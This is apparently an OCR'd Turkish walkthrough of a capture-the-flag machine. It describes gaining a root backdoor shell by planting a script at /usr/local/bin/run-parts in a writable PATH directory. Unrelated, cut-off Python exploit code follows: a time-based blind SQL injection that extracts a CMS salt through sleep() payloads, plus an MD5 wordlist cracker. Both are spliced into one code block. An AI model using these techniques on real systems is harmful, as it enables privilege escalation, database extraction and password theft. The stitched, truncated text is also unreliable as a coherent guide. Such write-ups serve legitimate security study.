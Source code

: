 ```
Bir kullanıcı giriş yaptığında, `root` kullanıcısı `sh` çalıştırır, bu da `/usr/bin/env` çalıştırır. Bu işlem belirli bir `$PATH` tanımlar ve `update-motd.d` dizini üzerinde `run-parts` komutunu çalıştırır.

Hemen fark edeceğim ki `$PATH` değişkeninin öncelikli olarak iki adet yazma iznine sahip olduğum dizini içerdiğini göreceğim.

Bunun üzerine, `/usr/local/bin/run-parts` konumuna bir script yazıp çalıştırılabilir (`executable`) hale getireceğim. Daha sonra SSH bağlantısını tekrar kurarak giriş yapacağım.

![Pasted image 20250204204412.png](/img/user/Pasted%20image%2020250204204412.png)

Şimdi SSH ile tekrar giriş yapabilirim ve backdoored shell'im beni bekliyor.

![Pasted image 20250204204627.png](/img/user/Pasted%20image%2020250204204627.png)


flag = True
password = ""
temp_password = ""
TIME = 1
db_name = ""
output = ""
email = ""

salt = ''
wordlist = options.wordlist if options.wordlist else ""

def crack_password():
    global password, output, wordlist, salt
    try:
        # errors='ignore' ile hatalı karakterleri atlayarak dosyayı okuyoruz
        with open(wordlist, 'r', encoding="utf-8", errors='ignore') as f:
            for line in f.readlines():
                line = line.strip()
                # MD5 hash için önce veriyi encode ediyoruz
                if hashlib.md5((str(salt) + line).encode()).hexdigest() == password:
                    output += "\n[+] Password cracked: " + line
                    print(output)
                    return
    except Exception as e:
        print("[-] Error reading wordlist: ", e)

def beautify_print():
    cprint(output, 'green', attrs=['bold'])

def dump_salt():
    global flag, salt, output
    ord_salt = ""
    ord_salt_temp = ""
    while flag:
        flag = False
        for i in range(len(dictionary)):
            temp_salt = salt + dictionary[i]
            ord_salt_temp = ord_salt + format(ord(dictionary[i]), 'x')
            payload = (
                "a,b,1,5))+and+(select+sleep(" + str(TIME) +
                ")+from+cms_siteprefs+where+sitepref_value+like+0x" +
                ord_salt_temp + "25+and+sitepref_name+like+0x736974656d61736b)+--+"
            )
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
```